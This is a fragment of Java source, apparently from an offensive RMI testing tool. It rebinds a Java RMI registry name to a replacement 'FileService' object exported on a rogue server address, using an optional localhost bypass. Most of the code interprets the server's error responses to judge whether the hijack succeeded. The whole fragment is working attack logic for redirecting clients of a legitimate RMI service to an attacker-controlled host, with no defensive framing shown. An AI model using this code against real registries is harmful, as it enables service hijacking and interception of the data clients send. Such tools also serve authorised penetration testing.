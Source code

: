 ```java

        if(boundName.equals("FileService")){
            Logger.printlnBlue("FileService bound name detected.");
            try {
                String[] serverAddress = checkTheServerIP(rougeServerAddress);
                System.setProperty("java.rmi.server.hostname", serverAddress[0]);
                fileService = new FileServiceImpl();
                fileServiceStub = (FileService)UnicastRemoteObject.exportObject(fileService, Integer.parseInt(serverAddress[1]));
                payloadObject = fileService;
                isFileService = true;
            }
            catch (Exception e) {
                System.out.println("Error: " + e.getMessage());
            }
        }

        String className = payloadObject.getClass().getName();

        Logger.printMixedBlue("Rebinding name", boundName, "to ");
        Logger.printlnPlainBlue(className);
        Logger.lineBreak();
        Logger.increaseIndent();

        MethodArguments callArguments = new MethodArguments(2);
        callArguments.add(boundName, String.class);
        callArguments.add(payloadObject, Object.class);

        try {
            registryCall("rebind", callArguments, false, localhostBypass);
            Logger.printlnMixedBlue("Encountered", "no Exception", "during rebind call.");
            Logger.printlnMixedYellow("Rebind operation", "was probably successful.");

        } catch( java.rmi.ServerException e ) {

            Throwable t = ExceptionHandler.getCause(e);

            if( t instanceof java.rmi.AccessException && t.getMessage().contains("non-local host") ) {
                ExceptionHandler.nonLocalhost(e, "rebind", localhostBypass);

            } else if( t instanceof java.rmi.AccessException && t.getMessage().contains("Cannot modify this registry")) {
                ExceptionHandler.singleEntryRegistry(e, "rebind");

            } else if( t instanceof java.lang.ClassNotFoundException) {
                Logger.eprintlnMixedYellow("Rebind operation", "was accepted", "by the server.");
                Logger.eprintlnMixedBlue("But the class", "RMIServerImpl_Stub", "was not found.");
                Logger.eprintln("The server probably runs on a JRE with limited module access.");

            } else if( t instanceof java.io.InvalidClassException) {
                ExceptionHandler.invalidClassBind(e, "Rebind", className);

            } else if( t instanceof java.lang.UnsupportedOperationException ) {
                ExceptionHandler.unsupportedOperationException(e, "rebind");

            } else {
                ExceptionHandler.unexpectedException(e, "rebind", "call", false);
            }

        } catch( Exception e  ) {
            ExceptionHandler.unexpectedException(e, "rebind", "call", false);
        }
```